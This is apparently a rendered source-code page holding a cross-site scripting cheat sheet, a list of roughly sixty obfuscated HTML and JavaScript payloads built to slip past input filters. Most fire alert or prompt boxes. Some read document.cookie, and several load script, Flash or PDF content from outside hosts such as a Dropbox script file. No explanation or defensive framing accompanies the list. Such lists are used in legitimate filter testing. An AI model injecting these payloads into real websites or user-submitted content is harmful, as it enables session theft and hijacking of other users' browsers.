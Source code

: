       <///style///><span %2F onmousemove='alert&lpar;1&rpar;'>SPAN
      <img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(1)
      &#34;&#62;<svg><style>{-o-link-source&colon;'<body/onload=confirm(1)>'
      &#13;<blink/&#13; onmouseover=pr&#x6F;mp&#116;(1)>OnMouseOver {Firefox & Opera}
      <marquee onstart='javascript:alert&#x28;1&#x29;'>^__^
      <div/style="width:expression(confirm(1))">X</div> {IE7}
      <iframe/%00/ src=javaSCRIPT&colon;alert(1)
      //<form/action=javascript&#x3A;alert&lpar;document&period;cookie&rpar;><input/type='submit'>//
      /*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(1) /*iframe/src*/>
      //|\\ <script //|\\ src='https://dl.dropbox.com/u/13018058/js.js'> //|\\ </script //|\\
      </font>/<svg><style>{src&#x3A;'<style/onload=this.onload=confirm(1)>'</font>/</style>
      <a/href="javascript:&#13; javascript:prompt(1)"><input type="X">
      </plaintext\></|\><plaintext/onmouseover=prompt(1)
      </svg>''<svg><script 'AQuickBrownFoxJumpsOverTheLazyDog'>alert&#x28;1&#x29; {Opera}
      <a href="javascript&colon;\u0061&#x6C;&#101%72t&lpar;1&rpar;"><button>
      <div onmouseover='alert&lpar;1&rpar;'>DIV</div>
      <iframe style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)">
      <a href="jAvAsCrIpT&colon;alert&lpar;1&rpar;">X</a>
      <embed src="http://corkami.googlecode.com/svn/!svn/bc/480/trunk/misc/pdf/helloworld_js_X.pdf">
      <object data="http://corkami.googlecode.com/svn/!svn/bc/480/trunk/misc/pdf/helloworld_js_X.pdf">
      <var onmouseover="prompt(1)">On Mouse Over</var>
      <a href=javascript&colon;alert&lpar;document&period;cookie&rpar;>Click Here</a>
      <img src="/" =_=" title="onerror='prompt(1)'">
      <%<!--'%><script>alert(1);</script -->
      <script src="data:text/javascript,alert(1)"></script>
      <iframe/src \/\/onload = prompt(1)
      <iframe/onreadystatechange=alert(1)
      <svg/onload=alert(1)
      <input value=<><iframe/src=javascript:confirm(1)
      <input type="text" value=`` <div/onmouseover='alert(1)'>X</div>
      http://www.<script>alert(1)</script .com
      <svg><script ?>alert(1)
      <iframe src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;%28&Tab;1&Tab;%29></iframe>
      <img src=`xx:xx`onerror=alert(1)>
      <object type="text/x-scriptlet" data="http://jsfiddle.net/XLE63/ "></object>
      <meta http-equiv="refresh" content="0;javascript&colon;alert(1)"/>
      <math><a xlink:href="//jsfiddle.net/t846h/">click
      <embed code="http://businessinfo.co.uk/labs/xss/xss.swf" allowscriptaccess=always>
      <svg contentScriptType=text/vbs><script>MsgBox+1
      <a href="data:text/html;base64_,<svg/onload=\u0061&#x6C;&#101%72t(1)>">X</a
      <iframe/onreadystatechange=\u0061\u006C\u0065\u0072\u0074('\u0061') worksinIE>
      <script>~'\u0061' ; \u0074\u0068\u0072\u006F\u0077 ~ \u0074\u0068\u0069\u0073. \u0061\u006C\u0065\u0072\u0074(~'\u0061')</script U+
      <script/src="data&colon;text%2Fj\u0061v\u0061script,\u0061lert('\u0061')"></script a=\u0061 & /=%2F
      <script/src=data&colon;text/j\u0061v\u0061&#115&#99&#114&#105&#112&#116,\u0061%6C%65%72%74(/XSS/)></script
      <object data=javascript&colon;\u0061&#x6C;&#101%72t(1)>
      <script>+-+-1-+-+alert(1)</script>
      <body/onload=&lt;!--&gt;&#10alert(1)>
      <script itworksinallbrowsers>/*<script* */alert(1)</script
      <img src ?itworksonchrome?\/onerror = alert(1)
      <svg><script>//&NewLine;confirm(1);</script </svg>
      <svg><script onlypossibleinopera:-)> alert(1)
      <a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script&#x3A;&#97lert(1)>ClickMe
      <script x> alert(1) </script 1=2
      <div/onmouseover='alert(1)'> style="x:">
      <--`<img/src=` onerror=alert(1)> --!>
      <script/src=&#100&#97&#116&#97:text/&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x000070&#x074,&#x0061;&#x06c;&#x0065;&#x00000072;&#x00074;(1)></script>